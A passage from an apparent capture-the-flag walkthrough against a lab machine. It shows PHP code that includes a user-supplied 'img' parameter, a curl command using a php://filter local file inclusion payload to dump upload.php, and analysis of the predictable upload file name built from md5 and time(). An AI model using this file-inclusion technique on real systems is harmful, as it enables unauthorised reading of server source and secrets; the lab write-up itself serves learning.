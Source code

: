 ```php
    if (is_safe_include($_GET['img'])) {
        include($_GET['img']);
    } else {
        echo "Hacking attempt detected!";
    }
}
```

Now we just need to know where the file gets uploaded. This is handled in `upload.php` so we take a close look at it aswell.

```
$ curl -s 'http://10.129.188.245/image.php?img=php://filter/convert.base64-encode/resource=upload.php' | base64 -d
```

At first this looks like more bruteforce work for us than it actually is. Because `$file_hash` is inside single quotes this means it is just the string literal. This is then hashed with the current time and `_` plus the filename get concatenated to the result.

```php
<?php
include("admin_auth_check.php");

$upload_dir = "images/uploads/";

if (!file_exists($upload_dir)) {
    mkdir($upload_dir, 0777, true);
}

$file_hash = uniqid();

$file_name = md5('$file_hash' . time()) . '_' . basename($_FILES["fileToUpload"]["name"]);
$target_file = $upload_dir . $file_name;
$error = "";
$imageFileType = strtolower(pathinfo($target_file, PATHINFO_EXTENSION));

if (isset($_POST["submit"])) {
    $check = getimagesize($_FILES["fileToUpload"]["tmp_name"]);
    if ($check === false) {
        $error = "Invalid file";
    }
}

// Check if file already exists
if (file_exists($target_file)) {
    $error = "Sorry, file already exists.";
}

if ($imageFileType != "jpg") {
    $error = "This extension is not allowed.";
}

if (empty($error)) {
    if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
        echo "The file has been uploaded.";
    } else {
        echo "Error: There was an error uploading your file.";
    }
} else {
    echo "Error: " . $error;
}
?>
```

